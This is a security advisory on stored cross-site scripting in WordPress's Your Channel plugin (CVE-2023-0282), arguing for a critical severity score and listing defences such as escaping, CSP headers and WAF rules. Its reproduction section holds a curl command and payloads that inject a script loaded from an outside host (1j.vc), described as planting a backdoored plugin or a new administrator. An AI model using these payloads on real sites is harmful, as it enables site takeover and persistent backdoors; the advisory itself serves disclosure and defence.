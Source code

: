 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for Wordpress"
categories: wordpress
author:
- TouchWeb.fr
- 202 ecommerce
- Friends-Of-Presta.org
meta: "CVE,Wordpress"
severity: "critical (9.0)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-03-03
* **Platform**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.0)

Vulnerability by design applied on Your Channel's plugin. This will work on any plugins which suffer of a XSS T2 F2B.

## Description

This publication is a summary of [TouchWeb](https://www.touchweb.fr)'s work studying the impact of XSS vulnerabilities in the context of the Wordpress CMS, following the [PrestaShop related publication](https://security.friendsofpresta.org/modules/2023/02/07/stored-xss.html)

To highlight the criticality of XSS and give us the means to mitigate their effects, TouchWeb conducted its research based on the vulnerability of the [Your Channel plugins](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62), which in versions prior to 1.2.2 has a stored XSS.

It has been wrongly tag as MEDIUM gravity instead of **CRITICAL** gravity : [CVE-2023-0282](https://nvd.nist.gov/vuln/detail/CVE-2023-0282) like many others XSS T2 F2B :
- [WP-SCAN Unauthenticated Stored XSS](https://wpscan.com/search?text=unauthenticated%20stored&vuln_type=14)
- [WP-SCAN Subscriber+ Stored XSS](https://wpscan.com/search?text=subscriber%20&vuln_type=14)

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H)

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is too many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.0+/10 since it unlocks design's vulnerabilities (users's administration / plugins's administration)

For others XSS Type 2 F2F/B2B/B2F (front to front / back to back / back to front), you can preserve a low to medium gravity score. 

Nevertheless, be warn that on Wordpress, XSS of type 1 can be critical if it targets a backoffice due to native predictable backoffice link (natively /wp-admin/).

### Plugin presentation

The [Your channel](https://fr.wordpress.org/plugins/yourchannel/) plugin allow, as subscriber (the lowest native role on Wordpress), to post videos.

The video field is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* yrc_lang[Videos] entered: <strong>my name</strong>
* result: my name will be displayed in bold in the back office in Your Channel's settings.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for Wordpress 4.0+ (we tested for 6.1.1).
* Script A allows injecting a classic-editor plugin containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator (we cannot "disabled it" as PS POC B on creation because WP do not allow this).

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed Wordpress 6.1.1
* We installed the [yourchannel plugin zip](https://github.com/WPPlugins/yourchannel/archive/refs/tags/0.9.1.zip).
* We allow guest on Wordpress to be able to sign up then create an account as guest
* Login with the account you created as guest and reproduce [this POC](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62) :  by replacing `><script>alert(1)</script>` by `><scrip src=//1j.vc/wp_a.js>` or `><scrip src=//1j.vc/wp_b.js>`

```
curl -v --cookie-jar cookie.txt  -X POST -d "log=YOUR_SUBSCRIBER_LOGIN&pwd=YOUR_SUBSCRIBER_PASSWORD&wp-submit=Log+In" "https://preprod.XXX/wp-login.php" \
&& curl -v --cookie cookie.txt -X POST -d "action=yrc_save_lang&yrc_lang[Videos]=%22%3E%3Cscript%20src%3Dhttps%3A%2F%2F1j.vc%2Fwp_a.js%3E%3C%2Fscript%3E" -H "Content-Type: application/x-www-form-urlencoded" https://preprod.XXX/wp-admin/admin-ajax.php
```

* As administrator, return to the back office on plugin's configuration page (Settings > Your Channel)


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files) or being called in XHR transactions (Ajax).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warned that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.
